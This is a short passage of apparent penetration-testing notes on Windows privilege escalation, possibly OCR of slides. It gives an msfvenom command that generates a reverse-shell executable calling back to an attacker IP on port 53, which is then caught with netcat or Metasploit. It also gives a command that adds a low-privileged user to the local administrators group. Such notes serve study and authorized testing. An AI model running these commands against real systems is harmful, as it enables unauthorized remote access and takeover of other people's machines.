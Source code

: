 
---
#### msfvenom

- If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:

```
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```

- This reverse shell can be caught using netcat or Metasploit’s own multi/handler.

---
#### RDP

- Alternatively, if RDP is available (or we can enable it), we can add our low privileged user to the administrators group and then spawn an administrator command prompt via the GUI.


```
net localgroup administrators <username> /add
```


